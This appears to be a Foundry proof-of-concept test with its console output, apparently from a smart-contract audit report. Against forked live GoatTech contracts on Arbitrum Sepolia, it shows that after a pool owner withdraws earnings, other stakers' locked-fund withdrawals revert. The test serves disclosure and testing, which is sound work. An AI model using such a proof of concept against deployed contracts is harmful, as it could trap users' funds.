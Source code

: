 
 address Alice = 0x71B61c2E250AFa05dFc36304D6c91501bE0965D8; address Eve = 0xb2248390842d3C4aCF1D8A893954Afc0EAc586e5; address John = 0x0F7F6B308B5111EB4a86D44Dc90394b53A3aCe13; 

 uint256 fork; 

 function setUp() public { // Set up forked environment for Arbitrum Sepolia fork = vm.createFork(\"https://public.stackup.sh/api/v1/node/arbitrum-sepolia\"); 

 // These addresses are the live GoatTech Contracts on Arbitrum Sepolia controller = Controller(payable(address(0xB4E5f0B2885F09Fd5a078D86E94E5D2E4b8530a7))); profile = Profile(0x7c25C3EDd4576B78b4F8aa1128320AE3d7204bEc); locker = Locker(0x0265850FE8A0615260a1008e1C1Df01DB394E74a); useAccessControl = UseAccessControl(0x588CF1494C5aC93796134E5e1827F58D2a8A9cDB); earning = Earning(0xf7a08a0728C583075852Be8B67E47DceB5c71d48); } 

 function test__IfPoolOwnerWithdrawsEarningsOthersCannotWithdrawLockedFunds() public { vm.selectFork(fork); 

 // John creates his own pool and stakes eth vm.startPrank(John); controller.ethStake{value: 10 ether}(payable(John), 30 days, 1000, 2000300, 1, 0); 

 // check the total amount of wsteth John has staked in the pool LLocker.SLock memory reeSlock = locker.getLockData(John, John); uint JohnStakedWstethAmount = reeSlock.amount; console.log(\"JohnStakedWstethAmount\", JohnStakedWstethAmount); 

 // He gets other users to stake like Alice and Eve vm.startPrank(Alice); controller.ethStake{value: 100 ether}(payable(John), 30 days, 1000, 2000300, 1, 0); 

 // check the total amount of wsteth Alice has staked in the pool LLocker.SLock memory reeeSlock = locker.getLockData(Alice, John); uint AliceStakedWstethAmount = reeeSlock.amount; console.log(\"AliceStakedWstethAmount\", AliceStakedWstethAmount); 

 vm.startPrank(Eve); controller.ethStake{value: 100 ether}(payable(John), 30 days, 1000, 2000300, 1, 0); 

 // check john's earnings now uint256 johnTotalEarnings = earning.earningOf(John); console.log(\"John's earnings after users stake in his pool\", johnTotalEarnings); 

 // 30 days pass skip(30 days); 

 // John withdraws earnings vm.startPrank(John); controller.earningWithdraw(true, earning.earningOf(John), payable(John), 1); 

 // can ALice withdraw her locked funds? // NO it will revert vm.startPrank(Alice); locker.approveAdmin(address(controller)); vm.expectRevert(); controller.lockWithdraw(true, payable(John), AliceStakedWstethAmount, payable(Alice), false, 1); } } 

Console Output: 


 forge test --mt test__IfPoolOwnerWithdrawsEarningsOthersCannotWithdrawLockedFunds -vv [] Compiling... [] Compiling 2 files with 0.8.8 [] Solc 0.8.8 finished in 3.21s Compiler run successful! 

 Ran 1 test for test/PoCOwnerLocksUsers.t.sol:Fork [PASS] test__IfPoolOwnerWithdrawsEarningsOthersCannotWithdrawLockedFunds() (gas: 14340319) Logs: JohnStakedWstethAmount 6671540705912181698 AliceStakedWstethAmount 65984438710531168379 John's earnings after users stake in his pool 5049570232408046637 

 Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 207.91s (205.63s CPU time) 

